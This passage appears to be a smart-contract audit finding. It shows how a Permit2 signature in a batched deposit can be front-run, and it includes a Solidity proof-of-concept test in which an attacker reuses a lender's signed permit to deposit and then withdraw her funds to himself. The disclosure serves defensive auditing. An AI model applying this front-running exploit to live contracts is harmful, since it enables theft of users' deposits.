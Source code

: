 #### Technical Details

As stated in the Permit [`EIP`](https://eips.ethereum.org/EIPS/eip-2612#security-considerations):

> Though the signer of a Permit may have a certain party in mind to submit their transaction, another party can always front-run this transaction and call the permit before the intended party. However, the end result is the same for the permit signer.

It's not an issue when `permit()` is executed as a standalone transaction. However, if the transaction is batched, as in this case, it presents a problem.

An attacker can steal a lender deposit, as shown in the following PoC:

```solidity
function testAttack() public {
    batches = zeroBatches;
    token1.mint(lender, amount);
    // Alice signs a transaction allowing a third party to deposit on her behalf
    vm.startPrank(lender);
    token1.approve(address(permit2), 2 ** 256 - 1);
    IAllowanceTransfer.PermitSingle memory permit = IAllowanceTransfer.PermitSingle({
        details: IAllowanceTransfer.PermitDetails({
            token: address(token1),
            amount: uint160(amount),
            expiration: uint48(block.timestamp + 1000),
            nonce: 0
        }),
        spender: address(vault1),
        sigDeadline: block.timestamp + 1000
    });
    bytes memory sig = getPermitSignature(permit, lenderPrivateKey, permit2.DOMAIN_SEPARATOR());

    // Third party want send a transaction to depositPermit2 and mint dr on behalf of Alice
    data = abi.encodeWithSelector(
        ERC20VaultPattern.depositPermit2.selector, permit, address(lender), sig, uint160(amount)
    );
    batch = IBaseLayer.BatchItem(address(vault1), data);
    batches.push(batch);
    data = abi.encodeWithSelector(BaseLayer.drMint.selector, address(vault1), accountIdLender, amount);
    batch = IBaseLayer.BatchItem(address(baseLayer), data);
    batches.push(batch);
    // baseLayer.dispatchBatch(batches); // frontran

    // Bob frontrun the above tx
    IBaseLayer.BatchItem[] storage frontRunBatches = zeroBatches;
    vm.startPrank(maliciousUser);
    // attacker deposits Alice's funds
    data = abi.encodeWithSelector(
        ERC20VaultPattern.depositPermit2.selector, permit, address(lender), sig, uint160(amount)
    );
    batch = IBaseLayer.BatchItem(address(vault1), data);
    frontRunBatches.push(batch);
    // attacker withdraws Alice's funds
    data = abi.encodeWithSelector(BaseLayer.transferOut.selector, address(vault1), address(maliciousUser), amount);
    batch = IBaseLayer.BatchItem(address(baseLayer), data);
    frontRunBatches.push(batch);
    // batch call
    baseLayer.dispatchBatch(frontRunBatches);

    assertEq(vault1.balanceOf(), 0);
    assertEq(token1.balanceOf(address(maliciousUser)), amount);
}
```
